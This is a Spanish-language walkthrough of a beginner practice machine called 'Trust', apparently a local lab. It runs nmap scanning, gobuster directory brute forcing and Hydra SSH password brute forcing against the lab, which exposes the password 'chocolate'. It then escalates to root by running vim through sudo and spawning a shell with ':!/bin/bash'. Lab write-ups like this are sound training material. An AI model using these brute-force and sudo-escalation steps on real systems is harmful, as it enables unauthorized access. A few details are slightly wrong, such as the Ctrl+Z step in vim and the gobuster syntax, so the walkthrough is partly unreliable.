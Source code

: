 #### INFORMACION DE LA MAQUINA.
#### Maquina Trust.
[LINK DE LA MAQUINA](https://mega.nz/file/UacxFKDR#G5KBHBt8ASB0lHPuttnaxKROAa40FMGrvBoIBf6ak0E)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```

Si entramos a la ip en el navegador podemos ver que en el puerto 80 hay un servidor apache2 configurado, el cual tiene la pagina por defecto que te entregan al activar el servidor.

![[Pasted image 20240529001714.png]]

---

Comenzamos el proceso con el reconocimiento del objetivo mediante el uso de la herramienta Nmap. Realizaremos un escaneo exhaustivo de todos los puertos disponibles, utilizando un escaneo de tipo SYN, junto con un conjunto de scripts que maximizarán la capacidad de reconocimiento, así como otro que nos proporcionará información sobre la versión de los servicios. Este escaneo se realizará enviando paquetes a una velocidad mínima de 5000 por segundo, sin realizar resolución DNS, y con un nivel de vervose triple en la salida para que los puertos abiertos se notifiquen progresivamente a medida que avanza el escaneo. Además, se incluirá un ping para verificar la conectividad previa.
```Linux
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

El escaneo detecto que la maquina tiene el puerto 22 protocolo SSH y puerto 80 protocolo HTTP abiertos.
Resultado de el escaneo:
```Linux
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))

```
---

Vamos a hacer fuerza bruta a la url de la pagina para poder encontrar directorios ocultos utilizando la herramienta GoBuster y una lista common de palabras. añadimos que busque extensionés html y php, para encontrar mas directorios posibles en el servidor web.
```Linux
gobuster dir -u http://172.17.0.2 -w usr/share/wordlists/dirb/common.txt html,php
```

Resultado de fuerza bruta:
``` Linux
/index.html           Status: 200
/secret.php           Status: 200
```

Accedémos a secret.php y encontramos una pagina la cual dice que no puede ser hackeada.
![[Pasted image 20240529005453.png]]

---

Vamos a intentar un ataque de fuerza bruta al puerto 22 SSH, ya que vimos que está abierto. Usaremos Hydra, especificando `-l` para el nombre de usuario, que sabemos que es "Mario", y `-P` para la contraseña, usando el diccionario de contraseñas RockYou y 64 hilos de velocidad.
```Linux
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

```
Resultado de la fuerza bruta.
![[Pasted image 20240529010407.png]]

Credenciales obtenidas ya tenemos acceso a el usuario mario el cual su contraseña es: chocolate.

---

A continuación nos conectamos con el comando ssh y pasandole el nombre de usuario arrobado con la ip de la maquina victima u objetivo.
```Linux
ssh mario@172.17.0.2
```

Nos saldra este aviso para que veamos si estamos intentando conectarnos al servidor correcto y no nos hayamos equivocado para entrar a uno malicioso, sale siempre al conectarse mediante ssh a una maquina por primera vez, puedes poner que yes y listo.
![[Pasted image 20240529011030.png]]
A continuacion nos pide la contraseña la cual como ya sabemos es **Chocolate**
![[Pasted image 20240529011230.png]]

---
Con el siguiente comando una vez dentro del usuario mario vamos a ejecutar como root el ide: vim.
```Linux
sudo -u root /usr/bin/vim
```

Ahora dentro del mismo vim presionamos control + z , lo cual nos abrira una pequeña seccion en la parte de abajo de todo, donde con doble punto :q podemos salir o escribri con :w etc, lo que mucha gente no sabe es que por ahi tambien podemos abusar para ejecutar comandos como por ejemplo abrirnos una bash que es lo que haremos a continuacion.
```Vim
:!/bin/bash
```

![[Pasted image 20240529012019.png]]

Gracias a eso, escalamos privilegios y obtuvimos el usuario con mayores privilegios root.

![[Pasted image 20240529012310.png]]

---
